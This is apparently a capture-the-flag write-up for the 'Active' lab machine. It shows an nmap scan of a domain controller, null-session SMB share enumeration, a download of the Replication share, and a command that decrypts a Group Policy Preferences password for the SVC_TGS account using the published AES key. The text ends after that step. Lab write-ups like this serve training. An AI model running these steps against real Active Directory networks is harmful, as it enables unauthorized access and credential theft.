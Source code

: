 # Active

## NMAP

```console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5722/tcp  open  msdfsr           syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49152/tcp open  unknown          syn-ack ttl 127
49153/tcp open  unknown          syn-ack ttl 127
49154/tcp open  unknown          syn-ack ttl 127
49155/tcp open  unknown          syn-ack ttl 127
49157/tcp open  unknown          syn-ack ttl 127
49158/tcp open  unknown          syn-ack ttl 127
49162/tcp open  unknown          syn-ack ttl 127
49166/tcp open  unknown          syn-ack ttl 127
49168/tcp open  unknown          syn-ack ttl 127
```

## SMB

* Verify what shares can we access via Null Session

```bash
nxc smb $IP -u '' -p '' --shares
```

* Logon to the share `Replication` and get all it's content

```bash
mask ""
recurse on
prompt off
mget *
```

* Going through `Groups.xml` we find `SVC_TGS` and it's password
* We find out that it's a gpp encrypted password and we can decrypt it as below suggested by [Internet All Things](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-group-policy-preferences/) 

```bash
cat passwd.txt | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```